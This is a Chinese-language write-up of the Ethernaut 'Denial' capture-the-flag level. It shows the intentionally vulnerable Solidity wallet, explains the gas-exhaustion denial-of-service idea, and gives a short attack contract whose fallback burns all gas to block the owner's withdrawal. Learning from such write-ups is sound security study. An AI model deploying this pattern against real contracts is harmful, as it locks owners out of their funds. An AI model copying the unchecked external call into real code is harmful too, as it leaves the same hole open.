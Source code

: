 # 20-Denial

日期: 23/08/2024
难易: 简单
漏洞小结: 拒绝攻击
简单明了: 通过消耗gas达到拒绝攻击的目的

# 问题描述

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

# 攻击思路

1. 通过攻击合约，把partner设置成我们的攻击合约
2. 因为`partner.call{value: amountToSend}("");`，会调用`receive`或者`fallback`函数
3. 在函数里面把gas消耗光，拒绝服务
    1. 一开始想用`revert`，但是发现是做不到的

# 攻击方式

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IDenial {
    function setWithdrawPartner(address) external;
}

contract AttackDenial {
    constructor(IDenial target) {
        target.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        // Burn all gas - same as assert(false) in Solidity < 0.8
        assembly {
            invalid()
        }
    }
}
```

# Ethernuat总结

# 小白的思考

- 仔细分析一波还是很简单的
- 需要了解0.8.0前后消耗攻击函数的不同

```solidity
    fallback() external payable {
        // Burn all gas - same as assert(false) in Solidity < 0.8
        assembly {
            invalid()
        }
    }
```

- 进一步思考，上面这么做是因为cal没有返回bool的值
    - 一般性会require操作成功，bool返回true，有个require在那边，那么可以用revert实现